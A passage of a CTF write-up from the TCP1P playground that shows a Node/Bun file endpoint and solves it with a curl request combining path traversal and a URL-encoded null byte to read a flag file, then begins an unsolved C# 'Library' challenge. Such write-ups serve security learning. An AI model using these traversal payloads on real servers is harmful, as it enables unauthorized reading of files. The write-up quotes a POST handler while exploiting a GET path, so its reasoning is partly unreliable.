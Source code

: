 ```ts
})

app.post('/api/files', express.urlencoded({ extended: true }), (req, res) => {
  const { filename, content } = req.body
  writeFileSync(join(__dirname, 'files', filename + ".txt"), content)
  res.redirect('/')
})
```
it means the system will read all file in directory files with adding .txt, so we cannot input to get the flag like this
```
/api/files/../../../../flag.flag
```
cus the system will read the path like this:
```
/api/files/../../../../flag.flag.txt
```
we can bypass the .txt by using null byte injection and set the payload as url encoding (based in this source)
```ts
app.post('/api/files', express.urlencoded({ extended: true }), (req, res) => {
  const { filename, content } = req.body
  writeFileSync(join(__dirname, 'files', filename + ".txt"), content)
  res.redirect('/')
})
```
#### Solver
```bash
❯ curl http://playground.tcp1p.team:4823/api/files/..%2f..%2fflag.flag%00
TCP1P{path_traversal_using_nullbyte_is_still_happend_in_bun_haha}
```
Flag: ``TCP1P{path_traversal_using_nullbyte_is_still_happend_in_bun_haha}``
### Library
##### Author: aimardcr
##### Desc: Sure sure, you are good at hacking server made using PHP, JavaScript, Python and Java. Now try hack this C# server (>ω<) Flag is located at /flag_<random-uuid>.txt URL: http://playground.tcp1p.team:40279
we got a web service and source code
![web service](libraryweb.png)

